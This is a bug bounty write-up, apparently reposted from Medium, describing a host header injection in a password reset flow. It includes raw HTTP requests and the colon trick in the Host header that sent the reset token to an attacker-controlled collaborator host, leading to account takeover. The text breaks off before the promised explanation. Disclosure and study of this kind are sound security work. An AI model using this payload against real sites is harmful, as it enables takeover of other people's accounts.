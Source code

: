 #header_injection #access_control #password_reset
# summary :
- attach burp collaborator in host header attack with links sent to victim like password reset link .
# report


![](https://miro.medium.com/v2/resize:fit:700/1*b071ti8HCTZ5VL2J4yloIQ.jpeg)

So I got an invite to a Private Bug bounty program on hackerone.com , The scope was very limited and its a 4 year old program , Initially it looked secured but I thought to give it a try .

So I straight away Jumped to check the Forgot Password functionality of the company main website .

I entered my email in forgot password field and intercepted the Request .
```
POST /auth/realms/Redacted/login-actions/reset-credentials?session_code=AbcdiQqKwDBsJcdIjZpAFW3&client_id=account&tab_id=Abcdii7y9i3qwXs HTTP/1.1  
Host: login.redacted.com  
Cookie: AUTH_SESSION_ID=fc59cdd34026abcd; KC_RESTART=AbcdiSldUIiiaXNFs  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 34  
Origin: https://login.redcated.com  
Referer: https://login.redacted.com/auth/realms/redacted/login-actions/reset-credentials?client_id=account&tab_id=Abcdi3qwXs  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1  
Te: trailers  
Connection: close  
  
username=testemail%40gmail.com
```


As you can see this Forgot password Request , First thought came in my mind is to test for Host header injection .

I attached my burp collaborator Url in the “Host” header like this :

Host: login.redacted.com.BurpcollaboratorUrl.com

I sent the request and nothing happened , it doesn’t worked .

Tried adding headers like “ X-forwarded-host “ and many more but it didn’t worked .

So now what? , lets think the other way .

After multiple attempts ,I found out that adding anything in the Host header will not work if it’s not ending with “ login.company.com” , As you have seen previously I have attached my burp collab URL at the end but It didn’t worked .

So now I tried to use burp collaborator Link at the start of the Host:

Host: burpcollaboratorUrl.com.login.redacted.com

Trying this I got forgot password link to my email and it was like this :

[https://abc.burpcollaborator.login.redacted.com/auth/realms/login-actions/action-token](https://abc.burpcollaborator.login.redacted..com/auth/realms/login-actions/action-token)?key=ey....

You can see here , although the BurpCollaborator URL reflected to the Password Reset link along with the token , but if you look closely the Server removed the “.com” of the burp collaborator URL and attached the company domain after it .

So technically , this makes it a Unknown Host ,Victim clicking on it will see “site can’t be reached” error . So basically as an attacker we cannot get any HTTP pingbacks to our Burp server that can give us the reset token .

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:700/1*vewDW4vsWyuL9eADQKS1og.png)

You can see Here , for request to work properly and to steal the token we need the password reset link like this :

https://abc.burpcollaborator.com/auth/realms/login-actions/action-token?key=ey....

At last , I tried to append a colon mark ( : )in the host header like this :

==Host: burpcollaboratorurl.com:login.redacted.com==

Final Request Looks like this now :
```
POST /auth/realms/redacted/login-actions/reset-credentials?session_code=Jabcde HTTP/1.1  
Host: abcd.burpcollaborator.com:login.redacted.com  
Cookie: AUTH_SESSION_ID=abcdfc59cdd34026.keycloak-482-keycloak-aaalzz4; Lpaa1sXBBnfZiwyvqXMPW2E5/ikwW6fuTZCg+XlvBMY9yeptovpOaJM2xmkK0=; _ga=GA1.2.1343917884.1641975182;   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 34  
Origin: https://login.redacted.com  
Referer: https://login.redacted.com/auth/realms/login-actions/reset-credentials  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1  
Te: trailers  
Connection: close  
  
username=testemail%40gmail.com
```


Sent the request and BoooM!

This time I bypassed it and server send the Link the way we wanted it to be .

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:700/1*RfUMEDj1-grYDXLJkAsQdg.png)

You can see now the Burp collaborator Url will work and has a token atftached to it .

Clicking on it executes the collaborator and I got HTTP pingbacks .

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:700/1*RWwtXhiBeg8CL7Au4q_c2A.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:700/1*IMhEGWEfSq1mwQHotXmGQQ.png)

Successfully Got the Reset Token and completely able to takeover Victim Account .

Now You might be thinking why and how that colon “ :” mark worked in the Host header . Well here is the explanation from the company internal team .
# link
https://medium.com/@deepanshudev369/interesting-story-of-an-account-takeover-vulnerability-140a45a058a3